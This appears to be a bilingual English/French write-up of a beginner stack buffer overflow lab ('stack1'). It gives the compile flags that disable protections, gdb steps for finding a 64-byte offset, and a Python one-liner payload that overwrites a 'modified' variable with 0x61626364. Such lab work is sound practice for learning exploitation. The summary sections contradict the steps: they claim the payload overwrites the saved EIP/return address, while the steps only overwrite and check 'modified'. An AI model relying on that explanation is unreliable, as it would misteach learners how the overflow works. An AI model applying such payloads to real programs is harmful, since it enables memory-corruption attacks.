 # Explanation

1. **Compile**
```bash
gcc -m32 -std=gnu89 -fno-stack-protector -g -z execstack -no-pie Stack1.c -o Stack1
```

2. **Find interesting break point**
- Check for the use of any unsafe function, such as get/strcpy/fgets.
- Find interest address for modified (0x080491eb)
```gdb
gdb -q ./Stack1
disas main
```
![Disas](Images/DisasMain.png)

3. **Offset Calculation**
- Calculate distance between buffer and and modified
```gdb
break *0x080491eb
run < AAAAAAAAAAAAAAAAAAA
```
![Break](Images/Breakpoint.png)

```gdb
print &buffer
print &modified
print (char *)&modified - (char *)&buffer
64 #Now test offset plus payload
```
![Offset](Images/Offset.png)

4. **Build Payload and confirm** 
- Payload will look like
```bash
#From CMD line
./Stack1 "$(python3 -c "print('A'*64 + '\x64\x63\x62\x61')")"

#From GDB
gdb --args ./Stack1 $(python3 -c "print('A'*64 + '\x64\x63\x62\x61')")
break *0x080491eb
p/x modified
```

![Success1](Images/Success1.png)

![Success2](Images/Success2.png)


# What I learned

- **Little-endian awareness:** the target return address must be written in reverse byte order (`0x61626364` ⇒ `"\x64\x63\x62\x61"`), or the CPU will read it backwards.
- **Exact offset still matters:** 64 bytes of padding gets you to the saved EIP just like in _stack0_; anything off by one leaves EIP untouched.
- **Proof of success:** running `./stack1 "$(python3 -c 'print(\"A\"*64 + \"\\x64\\x63\\x62\\x61\")')"` and checking GDB shows EIP = `0x61626364`, confirming the payload landed exactly where intended.

# Ce que j’ai appris

- **Penser little-endian :** l’adresse de retour doit être écrite à l’envers (`0x61626364` ⇒ `"\x64\x63\x62\x61"`), sinon le processeur la lira à rebours.
- **L’offset reste crucial :** 64 octets de bourrage atteignent pile l’EIP sauvegardé ; un seul ocet de plus ou de moins et l’EIP reste intact.
- **Preuve à l’appui :** la commande  
    `./stack1 "$(python3 -c 'print("A"*64 + "\x64\x63\x62\x61")')"`  
    exécutée sous GDB affiche EIP = `0x61626364`, confirmant que la charge utile tombe exactement au bon endroit.
